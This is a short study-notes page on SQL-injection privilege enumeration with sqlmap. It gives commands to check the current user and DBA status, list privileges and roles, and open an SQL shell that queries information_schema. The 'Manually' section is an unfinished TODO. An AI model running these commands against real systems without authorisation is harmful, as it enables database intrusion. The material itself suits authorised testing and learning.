 # 06 - Privileges

Search Tag: #sqlmap #enumeration-and-discovery

## Automated

- Enumerate current user database and check if it's DB administrator.

```
$ sqlmap -u <URL> --random-agent --current-user --is-dba 
```

- Enumerate privileges

```
$ sqlmap -u <URL> --random-agent --privileges -U CU
```

- Enumerate roles.

```
$ sqlmap -u <URL> --random-agent --roles -U CU
```

## Manually

TODO: Fill this info

```
$ sqlmap -u <URL> --random-agent --sql-shell

sql-shell> SELECT GRANTEE, IS_GRANTABLE, PRIVILEGE_TYPE, TABLE_CATALOG FROM information_schema.USER_PRIVILEGES
```